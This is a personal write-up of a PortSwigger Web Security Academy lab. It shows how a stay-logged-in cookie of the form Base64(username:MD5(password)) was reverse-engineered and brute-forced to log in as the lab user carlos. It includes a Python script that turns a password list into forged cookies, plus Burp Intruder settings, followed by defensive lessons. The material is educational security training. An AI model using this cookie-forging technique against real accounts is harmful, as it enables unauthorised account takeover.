



# Lab 09 — Brute-forcing a Stay-Logged-In Cookie

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Authentication
- **Lab:** Brute-forcing a stay-logged-in cookie
- **Difficulty:** Apprentice
- **Vulnerability:** Weak/predictable persistent authentication cookie
- **Status:** Solved

---

## Objective

The lab allows users to remain logged in after closing their browser session.

The persistent authentication cookie is vulnerable to brute-forcing.

The objective was to brute-force Carlos's persistent authentication cookie and access his **My account** page.

Provided credentials:

```text
Username: wiener
Password: peter
```

Victim:

```text
Username: carlos
```

---

## Initial Reconnaissance

I first logged in normally as `wiener` and captured the login request in Burp Suite.

The login request contained three parameters:

```text
username=wiener
password=peter
stay-logged-in=on
```

When the login was successful, the server returned:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
```

The response also contained two cookies:

```text
Set-Cookie: stay-logged-in=<value>
Set-Cookie: session=<value>; Secure; HttpOnly; SameSite=None
```

The `stay-logged-in` cookie was specifically investigated because the lab stated that persistent login functionality was vulnerable.



---

## Investigating the Persistent Cookie

I tested the authentication behavior with the cookies.

I found that the normal `session` cookie was not required for the persistent authentication mechanism.

The `stay-logged-in` cookie was required to access the account through the persistent login mechanism.

I also observed that logging in multiple times with the same credentials generated the same `stay-logged-in` cookie.

This suggested that the cookie was **deterministically generated** rather than being a random session token.

---

## Cookie Analysis

The `stay-logged-in` cookie initially appeared to be an encoded value.

After Base64 decoding the cookie, I discovered a structure containing:

```text
username:MD5(password)
```

For example, conceptually:

```text
wiener:<32-character MD5 hash>
```



The 32-character hash corresponded to the MD5 hash of the user's password (`peter`).


Therefore, the cookie generation process was:

```text
Password
    ↓
MD5(password)
    ↓
username:MD5(password)
    ↓
Base64 encode
    ↓
stay-logged-in cookie
```

This showed that the persistent authentication cookie could be reproduced if the username and candidate password were known.

---

## Testing Cookie Authentication

I accessed:

```text
GET /my-account?id=wiener
```

using the persistent authentication cookie.

The request returned:

```text
HTTP/2 200 OK
```

I also tested changing:

```text
/my-account?id=wiener
```

to:

```text
/my-account?id=carlos
```

while retaining the same `wiener` persistent cookie.

This redirected to:

```text
/login
```

indicating that changing the account ID alone was not sufficient to authenticate as Carlos.

I also tested different session-cookie combinations, but the persistent authentication cookie remained necessary.

This confirmed that the `stay-logged-in` cookie itself was being used as an authentication mechanism.

---

## Attack Hypothesis

The cookie was not a random authentication token.

Instead, it was generated deterministically from:

```text
username + MD5(password)
```

and then Base64 encoded.

Since the lab provided a candidate password list, I could generate a candidate persistent-authentication cookie for every password.

For Carlos:

```text
candidate password
        ↓
MD5(candidate password)
        ↓
carlos:<MD5 hash>
        ↓
Base64
        ↓
candidate stay-logged-in cookie
```

These candidate cookies could then be tested directly against:

```text
/my-account?id=carlos
```

---

## Generating Candidate Cookies

I used Python to generate the candidate cookies from the supplied password list.

### Python Script

```python
import hashlib
import base64

username = "carlos"

with open("passwords.txt", "r") as infile, open("payloads.txt", "w") as outfile:

    for line in infile:

        password = line.strip()

        md5_hash = hashlib.md5(password.encode()).hexdigest()

        token = f"{username}:{md5_hash}"

        b64_token = base64.b64encode(token.encode()).decode()

        outfile.write(b64_token + "\n")
```

The script:

1. Read each candidate password.
2. Calculated its MD5 hash.
3. Constructed:

```text
carlos:<MD5 hash>
```

4. Base64 encoded the result.
5. Wrote each resulting token to:

```text
payloads.txt
```

I manually checked the first generated value against the expected cookie structure to verify that the script was producing the correct tokens.

---

## Burp Intruder Attack

I created a new Intruder attack against:

```http
GET /my-account?id=carlos HTTP/2
```

The persistent cookie was marked as the payload position:

```http
Cookie: stay-logged-in=§candidate-cookie§
```

### Attack Configuration

```text
Attack type: Sniper

Payload position:
stay-logged-in cookie

Payload type:
Simple list

Payload:
payloads.txt
```

Sniper was appropriate because only one payload position needed to change.

The username remained constant:

```text
carlos
```

while the candidate persistent-authentication cookie was changed for each request.

---

## Identifying the Valid Cookie

Most candidate cookies resulted in an unauthenticated response.

The successful candidate produced:

```text
HTTP/2 200 OK
```

and returned Carlos's authenticated account page.

This response was different from the normal failed-cookie responses.

The successful cookie was then followed up manually to verify that the authentication was genuine.



---

## Password Discovery

The successful cookie corresponded to the correct candidate password from the supplied password list.

The password was recovered and verified by decoding the successful cookie for curiosity and confirmation of the previously identified cookie-generation algorithm.

The final credentials were:

```text
Username: carlos
Password: <discovered password>
```

---

## Verification

I accessed Carlos's account using the successful persistent-authentication cookie.

The account page loaded successfully with:

```text
HTTP/2 200 OK
```

I followed the account page and confirmed that I had successfully authenticated as Carlos.

The PortSwigger lab was then marked as solved.


---

## Attack Flow

```text
Login normally as wiener
        ↓
Inspect persistent authentication cookies
        ↓
Identify stay-logged-in cookie
        ↓
Base64 decode cookie
        ↓
Discover username:MD5(password) structure
        ↓
Confirm deterministic cookie generation
        ↓
Identify that session cookie is not required
        ↓
Generate Carlos candidate cookies
        ↓
MD5 each candidate password
        ↓
Construct carlos:MD5(password)
        ↓
Base64 encode
        ↓
Generate payloads.txt
        ↓
Burp Intruder — Sniper
        ↓
GET /my-account?id=carlos
        ↓
Test candidate stay-logged-in cookies
        ↓
Find 200 OK / authenticated response
        ↓
Verify Carlos's account
        ↓
Lab solved
```

---

## Vulnerability

The persistent authentication mechanism used a predictable value derived from the username and password:

```text
Base64(username:MD5(password))
```

This meant that an attacker who knew a victim's username and had a candidate password list could generate valid authentication cookies without needing to interact with the normal login form.

The cookie therefore lacked the unpredictability expected from a secure persistent authentication token.

---

## Burp Suite Techniques Used

### Repeater

Used to:

* Investigate the login flow.
* Compare session and persistent authentication cookies.
* Test whether the `session` cookie was required.
* Test the behavior of the `stay-logged-in` cookie.
* Test whether changing the account ID alone could access another account.
* Analyze the persistent cookie structure.

### Intruder

Used to:

* Test the generated candidate persistent-authentication cookies.
* Identify the cookie that produced an authenticated response.

### Sniper

Used because only one payload position was required:

```http
Cookie: stay-logged-in=§candidate§
```

---

## Methodology Lessons

### Don't assume an opaque cookie is random

A cookie that looks random may actually contain encoded or predictable data.

The cookie should be characterized before attempting to brute-force it.

### Encoding is not encryption

Base64 does not provide confidentiality.

It can be decoded directly.

Likewise, MD5 is a **hash**, not encryption.

The important vulnerability was not simply that MD5 was used, but that the entire authentication token was deterministically derived from predictable inputs.

### Reverse-engineer before brute-forcing

Instead of attempting to randomly brute-force the cookie value, I first determined how the application generated it.

Once the algorithm was understood, candidate cookies could be generated efficiently.

### Test whether persistent authentication works independently

The normal session cookie was not required for the persistent authentication mechanism.

This allowed the attack to target:

```text
/my-account?id=carlos
```

directly instead of repeatedly interacting with the login endpoint.

### Verify unusual responses

A `200 OK` response was a strong indication that the candidate cookie was valid, but the final account page was manually checked to confirm that authentication as Carlos had actually succeeded.

---

## Key Takeaways

1. Persistent authentication cookies should be unpredictable.
2. Base64 is encoding, not encryption.
3. MD5 is hashing, not encryption.
4. A deterministic authentication cookie can be reproduced if its generation algorithm is known.
5. Candidate password lists can be transformed into candidate authentication tokens.
6. Burp Repeater is useful for reverse-engineering authentication mechanisms before automation.
7. Burp Intruder Sniper is appropriate when only one token/cookie value needs to change.
8. Authentication should not depend on predictable password-derived tokens.
9. Always verify the actual authenticated state rather than relying solely on a status code.
10. Reverse-engineering the token-generation mechanism can be more effective than blindly brute-forcing an opaque value.

---

## Final Result

Successfully reverse-engineered the `stay-logged-in` cookie, generated candidate authentication cookies from the supplied password list, identified the valid cookie using Burp Intruder, authenticated as Carlos, and completed the PortSwigger lab.
